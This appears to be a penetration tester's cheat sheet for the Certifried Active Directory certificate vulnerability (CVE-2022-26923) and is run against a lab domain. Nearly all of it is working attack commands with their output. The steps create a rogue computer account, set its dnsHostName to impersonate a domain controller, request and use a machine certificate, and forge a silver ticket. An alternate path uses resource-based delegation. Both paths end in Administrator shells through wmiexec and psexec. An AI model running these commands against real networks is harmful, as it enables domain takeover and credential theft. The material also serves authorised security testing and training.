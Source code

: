 # Certifried

> ***Certifried (CVE-2022-26923)***

------

This vulnerability is based manipulating **certificate mapping** when creating a computer account. Certificate mapping relied on `dNSHostName` attribute of a computer account. So when a computer requested a certificate, it trusted that `dNSHostName` as its identity.

**Exploit by**

1. Clear the SPN linked to computer account
2. Modify the `dNSHostName` to impersonate other machine.
3. Request a certificate using Machine template.

### Abuse

Check if CA is patched

```bash
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User
```

Add computer which dnsHostName should match DCs.

```sh
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass 'Password123!' -dc-ip 10.129.228.134 'LAB.LOCAL/Blwasp':'Password123!'
```

Enumerate and check DNS names

```sh
certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable
```

Edit dnsHostName with powerview

```bash
powerview lab.local/BlWasp:'Password123!'@10.129.228.237 
Logging directory is set to /home/mczen/.powerview/logs/lab-blwasp-10.129.228.237
[2025-01-31 18:51:15] [Storage] Using cache directory: /home/mczen/.powerview/storage/ldap_cache
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]

Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"
[2025-01-31 18:51:33] [Set-DomainObject] Success! modified attribute dnshostname for CN=CERTIFRIED,CN=Computers,DC=lab,DC=local
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
```

Request certificate and impersonate DC

```shell-session
certipy req -u 'CERTIFRIED$' -p 'Password123!' -dc-ip 10.129.228.134 -ca lab-LAB-DC-CA -template 'Machine'
```

Authenticate

```sh
certipy auth -pfx dc02.pfx
```

Proceed for silver ticket, get SID

```sh
nxc ldap 10.129.228.237 -u dc02$ -H cdd3cf40d6d5bee74013db1c26f58ee1 --get-sid
```

Get silver ticket

```sh
ticketer.py -nthash db35f9cf2e343f0795d33aef721a8f9a -domain-sid S-1-5-21-2810262047-4248699891-1002428937 -domain lab.local -spn cifs/dc02.lab.local Administrator
```

### Alternate Method

```shell
certipy auth -pfx dc02.pfx -dc-ip 10.129.228.237 -ldap-shell
```

In ldap shell

```sh
add_computer ESC1 E$C1
set_rbcd DC02$ ESC1$
exit
```

Request CIFS ticket

```shell
getST.py -spn cifs/dc02.lab.local -impersonate Administrator -dc-ip 10.129.228.237 'lab.local/esc1$:E$C1'
```

Then connect

```sh
# WMI
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache wmiexec.py -k -no-pass dc02.lab.local  

# PSEXEC
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache psexec.py -k -no-pass dc02.lab.local
```
